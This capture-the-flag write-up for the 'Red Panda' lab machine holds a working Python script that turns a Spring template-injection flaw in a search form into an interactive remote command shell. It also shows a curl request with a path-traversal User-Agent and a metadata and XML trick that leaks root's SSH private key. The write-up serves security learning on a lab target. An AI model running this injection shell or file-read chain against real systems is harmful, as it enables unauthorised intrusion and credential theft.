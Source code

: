 ```yaml
---
title: Red Panda (Easy)
author: Carlos
date: 2023-02-13
categories: [Writeups, writeups-easy]
tags: [Writeups, writeups-easy]
---
```

<div align="center"><img src= "/writeimgs/redpanda/pandaicon.png"></div> 

<div></div>
<p> </p>
We start scanning ports with nmap

<img src= "/writeimgs/redpanda/red1.png">


Once the port scan is done, we observe that on port 8080, they have a website, we enter there and find a nice search engine for pandas:

<img src= "/writeimgs/redpanda/red2.png">

If we use the whatweb command, we can observe the technology that the web has:

<img src= "/writeimgs/redpanda/red3.png">

Knowing this we can use an example of <A HREF="https://github.com/swisskyrepo/PayloadsAllTheThings"> PayloadsAllTheThings </A> but it blocks the $

<img src= "/writeimgs/redpanda/red4.png">

However, we can use * which works in the same way.

<img src= "/writeimgs/redpanda/red5.png">

To perform this process in an automatic and simple way, we can use the following script:

```ruby
#!/usr/bin/python3
import requests
from cmd import Cmd
from bs4 import BeautifulSoup

class RCE(Cmd):
    prompt = "\033[1;31m$\033[1;37m "
    def decimal(self, args):
        comando = args
        decimales = []

        for i in comando:
            decimales.append(str(ord(i)))
        payload = "*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(%s)" % decimales[0]

        for i in decimales[1:]:
            payload += ".concat(T(java.lang.Character).toString({}))".format(i)

        payload += ").getInputStream())}"
        data = { "name": payload }
        requer = requests.post("http://10.10.11.170:8080/search", data=data)
        parser = BeautifulSoup(requer.content, 'html.parser')
        grepcm = parser.find_all("h2")[0].get_text()
        result = grepcm.replace('You searched for:','').strip()
        print(result)

    def default(self, args):
        try:
            self.decimal(args)
        except:
            print("%s: command not found" % (args))

RCE().cmdloop()
```

We use the above mentioned script and get the user flag!

<img src= "/writeimgs/redpanda/red6.png">
<p>
<img src= "/writeimgs/redpanda/red7.png">
</p>
After searching through directories for a while we found credentials in MainController.java.

<img src= "/writeimgs/redpanda/red8.png">

We can use these credentials to connect via ssh:

<img src= "/writeimgs/redpanda/red9.png">

We will try to use the pspy to see what is running behind, for that we download it and upload it with:

<b> <i>scp pspy64 woodenk@10.10.11.170:/home/woodenk</i></b>

<img src= "/writeimgs/redpanda/red10.png">

Once pspy is uploaded, we give it permissions and run it:

<img src= "/writeimgs/redpanda/red11.png">

If we look with pspy at the system tasks, we see that root runs a script like woodenk.

<img src= "/writeimgs/redpanda/red12.png">

This may be a clue to be able to scale, because why, would you delete files with that extension? Reviewing again the file where we found credentials we see how it exports the xml.

<img src= "/writeimgs/redpanda/red13.png">

Also in another App.java file we can see how it handles the metadata, now it starts to make sense that it will delete files with those extensions, but also in the file it shows us how it handles the User-Agent.

Looking at this configuration we can inject in the "Artist" field, a path where the xml will be, this in any image that later we will upload to the machine.

<img src= "/writeimgs/redpanda/red14.png">

Next we will create in the home an xml file that points to the root id_rsa, this with the name defined in the image plus _creds.xml.

<img src= "/writeimgs/redpanda/red15.png">

Now we have to make a curl request with the format we saw in the file as User-Agent.

<b><i> curl http://10.10.11.170:8080 -H "User-Agent: ||/../../../../../../../home/woodenk/gato.jpg </i></b>

<img src= "/writeimgs/redpanda/red16.png">

Finally we will export the xml from /stats to take our file.

<img src= "/writeimgs/redpanda/red17.png">
<p> </p>
<img src= "/writeimgs/redpanda/red18.png">

After a few seconds if we check the xml it will have the root id_rsa.

<img src= "/writeimgs/redpanda/red19.png">

Now with this id_rsa, we can finally connect via ssh as root and get the much desired flag!

<img src= "/writeimgs/redpanda/red20.png">
